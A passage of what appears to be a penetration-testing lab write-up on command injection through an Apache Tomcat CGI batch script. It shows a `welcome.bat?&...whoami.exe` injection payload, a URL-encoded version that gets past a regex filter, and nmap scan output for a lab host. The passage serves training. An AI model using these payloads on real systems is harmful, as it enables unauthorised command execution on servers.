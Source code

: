 `PATH` variable has been unset, so we will need to&#x20;

**hardcode paths in requests:**

```
http://10.129.204.227:8080/cgi/welcome.bat?&c:\windows\system32\whoami.exe
```

Error because a patch that utilises a regular expression to prevent the use of special characters

**URL-encoding the payload.**

```http
http://10.129.204.227:8080/cgi/welcome.bat?&c%3A%5Cwindows%5Csystem32%5Cwhoami.exe
```

## Assessment

**After running the URL Encoded 'whoami' payload, what user is tomcat running as?**

1. Search which port is Tomcat running
   1.  ```
       nmap -sC -Pn 10.129.205.30 --open  
       Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-13 23:46 EDT
       Nmap scan report for 10.129.205.30
       Host is up (0.18s latency).
       Not shown: 813 closed tcp ports (conn-refused), 181 filtered tcp ports (no-response)
       Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
       PORT     STATE SERVICE
       22/tcp   open  ssh
       | ssh-hostkey: 
       |   2048 ae:19:ae:07:ef:79:b7:90:5f:1a:7b:8d:42:d5:60:99 (RSA)
       |   256 38:2e:76:cd:05:94:a6:e7:17:d1:80:81:65:26:25:44 (ECDSA)
       |_  256 35:09:69:12:23:0f:11:bc:54:6f:dd:f7:97:bd:61:50 (ED25519)
       135/tcp  open  msrpc
       139/tcp  open  netbios-ssn
       445/tcp  open  microsoft-ds
       8009/tcp open  ajp13
       | ajp-methods: 
       |_  Supported methods: GET HEAD POST OPTIONS
       8080/tcp open  http-proxy
       |_http-favicon: Apache Tomcat
       |_http-title: Apache Tomcat/9.0.17

       Host script results:
       | smb2-security-mode: 
       |   3:1:1: 
       |_    Message signing enabled but not required
       | smb2-time: 
       |   date: 2023-07-14T03:46:15
       |_  start_date: N/A
